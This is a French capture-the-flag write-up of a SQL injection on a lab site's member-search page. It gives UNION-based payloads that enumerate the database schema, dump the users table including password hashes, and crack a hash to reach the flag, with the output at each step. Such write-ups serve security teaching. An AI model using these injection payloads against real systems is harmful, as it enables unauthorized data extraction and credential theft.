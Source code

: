 # Member SQL injection

## Identification

Sur /index.php?page=member, on peut rechercher les membres par id. En testant on se rend compte que l'input n'est pas protégé et qu'on peut injecter du sql dans le where.
La requête SQL ressemble à ça: `SELECT first_name, surname FROM users where id_user = $id`

## Exploit

### Récupération des tables

On peut commencer par récupérer toute les tables présentes dans la database:
Input : `1 UNION SELECT 1, table_name FROM information_schema.tables`
Le `1,` ici permet simplement de récupérer autant de columns que dans le SELECT précédant (le SELECT du code d'index.php), c'est à dire 2 colonnes.
Output:
```
ID: 1 UNION SELECT 1, table_name FROM information_schema.tables 
First name: 1
Surname : CHARACTER_SETS
ID: 1 UNION SELECT 1, table_name FROM information_schema.tables 
First name: 1
Surname : COLLATIONS
ID: 1 UNION SELECT 1, table_name FROM information_schema.tables 
First name: 1
Surname : COLLATION_CHARACTER_SET_APPLICABILITY

ETC...
```
Nous retrouvons le nom des tables dans la colonne `surname`
On remarque que la table `users` est présente, et nous allons nous conentrer dessus

### Récupération des colonnes de la table `users`

Il faut maintenant récupérer les colonnes de la table `users`:
Input: `1 UNION SELECT table_name, column_name FROM information_schema.columns`
(Ici, pas besoin du `1,` car nous récupérons déjà 2 colonnes)
Output (avec un ctrl+f sur "users"):
```
ID: 1 UNION SELECT table_name, column_name FROM information_schema.columns 
First name: users
Surname : user_id
ID: 1 UNION SELECT table_name, column_name FROM information_schema.columns 
First name: users
Surname : first_name
ID: 1 UNION SELECT table_name, column_name FROM information_schema.columns 
First name: users
Surname : last_name
ID: 1 UNION SELECT table_name, column_name FROM information_schema.columns 
First name: users
Surname : town
ID: 1 UNION SELECT table_name, column_name FROM information_schema.columns 
First name: users
Surname : country
ID: 1 UNION SELECT table_name, column_name FROM information_schema.columns 
First name: users
Surname : planet
ID: 1 UNION SELECT table_name, column_name FROM information_schema.columns 
First name: users
Surname : Commentaire
ID: 1 UNION SELECT table_name, column_name FROM information_schema.columns 
First name: users
Surname : countersign
```
Pareil ici, on récupère toutes les colonnes de la table `users` dans `surname`.

### Récupération de toutes les infos utilisateurs

Il nous suffit maintenant de récupérer toute les données contenues dans la table `users`.
Comme nous récupérerons ici beaucoup de colonnes et que nous ne pouvons normalement qu'en récuperer que 2 avec le `UNION`, on doit utiliser un `concat()` pour concaténer la sortie de plusieurs colonnes en une seule. Pour la clareté, on ajouter un `\n`  entre chaque colonne:
Input: `1 union select 1, concat(user_id, 0x0a, first_name, 0x0a, last_name, 0x0a, town, 0x0a, country, 0x0a, planet, 0x0a, Commentaire, 0x0a, countersign) from users`
Output:
```
ID: 1 union select 1, concat(user_id, 0x0a, first_name, 0x0a, last_name, 0x0a, town, 0x0a, country, 0x0a, planet, 0x0a, Commentaire, 0x0a, countersign) from users 
First name: 1
Surname : 3
Joseph
Staline
Moscou
Russia
Earth
????? ????????????? ?????????
e083b24a01c483437bcf4a9eea7c1b4d

ID: 1 union select 1, concat(user_id, 0x0a, first_name, 0x0a, last_name, 0x0a, town, 0x0a, country, 0x0a, planet, 0x0a, Commentaire, 0x0a, countersign) from users 
First name: 1
Surname : 5
Flag
GetThe
42
42
42
Decrypt this password -> then lower all the char. Sh256 on it and it's good !
5ff9d0165b4f92b14994e5c685cdce28

ETC...
```
On remarque qu'un `user` nommé `Flag` existe, un hash est présent dans la colonne `countersign` et des instructions sont présentes dans la colonne `Commentaire`

### Récupérer le flag

Avec une rapide recherche internet, on découvre que `5ff9d0165b4f92b14994e5c685cdce28`, et une fois déchiffré, nous donne `FortyTwo`.
Il nous suffit de la lower de le sha256 : `sha256(fortytwo) = 10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5`

